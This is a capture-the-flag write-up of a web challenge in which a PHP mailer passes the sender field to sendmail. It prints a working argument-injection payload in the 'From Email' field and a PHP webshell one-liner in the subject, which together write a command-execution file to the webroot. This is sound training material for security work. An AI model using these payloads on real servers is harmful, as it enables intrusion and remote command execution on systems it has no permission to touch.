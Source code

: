 ### Name: Letter Despair
#### Difficulty: Easy
#### Category: Web
Description:
> A high-profile political individual was a victim of a spear-phishing attack. The email came from a legitimate government entity in a nation we don't have jurisdiction. However, we have traced the originating mail to a government webserver. Further enumeration revealed an open directory index containing a PHP mailer script we think was used to send the email. We need access to the server to read the logs and find out the actual perpetrator. Can you help?

---
Visiting the challenge endpoint, we get a directory listing:

![](./images/1.png)

The `mailer.zip` contains the source code of the `mailer.php` page.

![](./images/2.png)

### mailer.php

![](./images/3.png)

At first I thought that it was some file upload vulnerability by looking at the attachment feature. But looking through the source code, it wasn't the case.
Even so, I ran the page locally with php server to see where the uploaded file is stored. Then I saw something on the server logs.

![](./images/4.png)

It was calling out `sendmail`. Sendmail is a CLI tool which is used to send emails. I installed sendmail and used pspy to see the command line used to run the binary.

![](./images/5.png)

It looks like the `From Email` parameter is directly being passed in to the shell command. This looks like an interesting injection point.
I tried performing injections with characters such as `&&`  and `;` but these were escaped properly.
I searched online and saw that there were many known exploits for PHP sendmail command injection.
I came across this one https://www.exploit-db.com/exploits/40970. Here, they were able to pass additional flag parameters onto the command using `-oQ /tmp -X/var/www/cache/phpcode.php`. It basically stores the log which contains the contents of the email and saves locally to a file at `/var/www/cache/phpcode.php`.

Simillarly, I tried with the following payload:
**From Email**:
```sh
relations@moi.gov.htb -OQueueDirectory=/tmp -X/var/www/html/cmd.php
```
**Subject**:
```php
<?php echo shell_exec($_GET['cmd']);?>
```

This will create a file at `/var/www/html/cmd.php` that will contain the php code at subject. We can then use it as a webshell to run commands on the server.

![](./images/6.png)

---

### Automate it

<script id="asciicast-ABKXeshfBlHoNLLBPKzE1GLgc" src="https://asciinema.org/a/ABKXeshfBlHoNLLBPKzE1GLgc.js" async></script>
